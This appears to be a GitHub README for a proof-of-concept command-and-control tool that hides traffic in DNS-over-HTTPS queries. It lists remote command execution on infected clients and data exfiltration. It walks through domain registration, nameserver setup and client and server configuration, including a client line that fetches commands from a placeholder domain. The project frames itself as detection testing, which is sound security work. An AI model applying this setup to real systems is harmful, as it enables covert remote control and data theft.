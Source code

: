 # Dns-over-HTTPS-DOH
This project provides a proof-of-concept implementation of a Command and Control (C2) infrastructure using DNS over HTTPS (DoH). 
DoH C2 allows for covert communication between the C2 server and the infected client machines by leveraging encrypted DNS queries
thereby making the traffic appear legitimate and harder to detect by traditional network monitoring tools.

# Testing and Limitations
This project is intended for educational purposes and authorized security research only. 
Bypassing antivirus software or other security measures is not within the scope of this project. 
It is designed for testing in controlled environments to demonstrate the feasibility and mechanics of using DoH for C2 communication **to test enterprise corporate forward proxy detection and improve any custom build signatures in SIEMs.**

# Features
**Covert Communication**: Utilizes DoH to encode and disguise C2 traffic.

**Command Execution**: Supports remote execution of commands on infected Linux clients.

**Data Exfiltration**: Allows for exfiltration of data through DOH queries.

**Server and Client Implementation**: Includes both C2 server and client components.

# Initial setup
For client side, linux is recommended but the code was tested on Windows 10 and seem to worked :)  
For server side linux.  

**1. Client Side**  
    Install Python >=3.8 from the official website or your package manager.  
     Install the requests library using pip:    
     **pip install requests**
**2. Server side** only Linux  
    Install the dnslib library using pip
    **pip install dnslib**  

**3. Register domain**  
Example purchasing domain using namecheap.com
![grafik](https://github.com/user-attachments/assets/26f16ed6-1a45-4b1c-8ddc-cac2287eba24)

Follow instructions on the screenshot bellow to setup the NameServer.
Replace the IP and domainname with your purchased domain and server Public IP
![grafik](https://github.com/user-attachments/assets/c9e9f4cf-ac77-4b31-b92d-7bfe28ed93e9)

# Usage
**1. Client side**  

Make sure to change the bellow in the "doh_client.py" to the domain registered in step 3.  

if __name__ == "__main__":
    domain_name = "send.examples.com.co"  # Replace after '**send**' with your domain
    execute_command_from_dns(domain_name)

      
python3 doh_client.py  
Example run 
![grafik](https://github.com/user-attachments/assets/ff8f6724-9985-4411-87f0-7435cad4ad7f)


**2. Server side**  

Make sure to change the IP in the "doh_server.py"  

class DNSDoHServer:
    def __init__(self, host='YOURIP', port=53): # Replace with Your public IP


Example run:
![grafik](https://github.com/user-attachments/assets/dec32aca-60b0-415a-a616-49c14a21906b)

Note instead of the  examples.com.co you should use your domain name  
Run: python3 doh_server.py

# Architecture TODO
# Detection Tips TODO
